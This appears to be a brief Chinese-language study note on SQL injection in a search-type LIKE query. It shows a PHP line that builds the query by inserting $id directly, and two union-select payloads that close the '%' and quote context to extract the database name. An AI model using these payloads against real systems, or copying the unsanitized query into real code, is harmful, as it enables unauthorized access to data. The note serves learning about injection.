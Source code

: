 

#### 百分号闭合——搜索型



```
$sql="select * from news where id like '%$id%'";
```

我使用上面闭合也可以

```
%' union select 1,2,3,database(),5,6-- +
```

![image-20240318090420696](../图片/image-20240318090420696.png)

拼接后门的%形成闭合

```
%' union select 1,2,3,database(),5,6 and'%'='
```
